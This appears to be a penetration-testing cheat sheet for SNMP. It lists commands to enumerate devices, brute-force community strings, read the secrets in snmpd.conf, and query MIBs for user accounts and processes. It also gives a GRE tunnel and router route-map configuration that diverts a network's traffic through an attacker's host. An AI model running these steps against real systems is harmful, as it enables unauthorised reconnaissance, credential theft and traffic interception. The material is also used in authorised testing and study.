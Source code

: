 # SNMP Commands & Enumeration
======
#### SNMP Get
snmpcheck -t <ip-address> -c <community-string>
#### Brute Force Community String
snmpbrute -t <ip-address>
#### Brute Force Community Strings
onesixtyone -c <community-string-file> -i <ips-file>
#### SNMP Walk
snmpwalk -v1 -c <community-string> -t 10 <ip-address>
#### Start TFTP Server
service atftpd start
#### create GRE tunnel
```

	modprobe ip_gre
	iptunnel add mynet mode gre remote <target> local <tun0> ttl 255
	ip addr add 172.16.0.3/24 dev mynet
	route add -net 172.16.0.0 netmask 255.255.255.0 dev mynet
	ifconfig mynet up

```
#### Redirect all traffic through GRE tunnel
```

	route-map divert permit 10
	 match ip address 102
	 set ip next-hop 172.16.0.3
	
	 fe 1/0 (internal interface)
	 ip policy route-map divert

```
#### Setup Host to Catch GRE Tunnel
```

	 echo 1 > proc/sys/net/ipv4/ip_forward
	 route add -net 10.200.0.0 netmask 255.255.255.0 gw 172.16.0.1
	 iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	 iptables --append FORWARD --in-interface mynet -j ACCEPT

```
#### View Local SNMP Secrets
cat /etc/snmp/snmpd.conf

## Important MIBs
------
#### System Processes
1.3.6.1.2.1.25.1.6.0
#### Running Programs
1.3.6.1.2.1.25.4.2.1.2
#### Processes Path
1.3.6.1.2.1.25.4.2.1.4
#### Storage Units
1.3.6.1.2.1.25.2.3.1.4
#### SoftwareName
1.3.6.1.2.1.25.6.3.1.2
#### User Accounts
1.3.6.1.4.1.77.1.2.25
#### TCP Local Ports
1.3.6.1.2.1.6.13.1.3